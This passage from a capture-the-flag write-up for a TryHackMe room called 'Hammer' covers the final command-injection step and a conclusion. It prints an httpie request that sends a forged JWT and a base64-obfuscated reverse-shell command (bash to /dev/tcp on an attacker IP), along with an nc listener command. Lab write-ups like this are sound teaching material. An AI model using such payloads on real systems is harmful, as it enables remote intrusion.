 3. **Inject command:**  

   Use the forged JWT and base64-encoded Bash command to send a request to the server:
   
```shell
http -b --path-as-is POST hammer.thm:1337/execute_command.php \ Authorization:"Bearer <JWT.Token>" \ Cookie:"persistentSession=no" \ command="echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yMS43My4xMDUvOTk5OSAwPiYxCg== | base64 -d | bash"
```

Ensure you have a listener ready (e.g., `nc -lvnp 9999`) before sending the request.

<img src="https://github.com/ChrisRyanKelly/THM-Write-Ups/blob/master/hammer/screenshots/callback.png" width="1280" height="200">

---
### Conclusion
This write-up is designed to offer a unique perspective on tackling the room without revealing any flags, allowing readers to experience the challenge firsthand. The goal is to highlight key methodologies, tools, and techniques used throughout the process while encouraging hands-on learning.

Additionally, this write-up served as an opportunity to enhance my scripting and exploit development skills. All the scripts referenced here have been shared on my GitHub page, where you can find them to assist in your own exploration of this room. Feel free to use and adapt them to deepen your understanding and refine your approach.

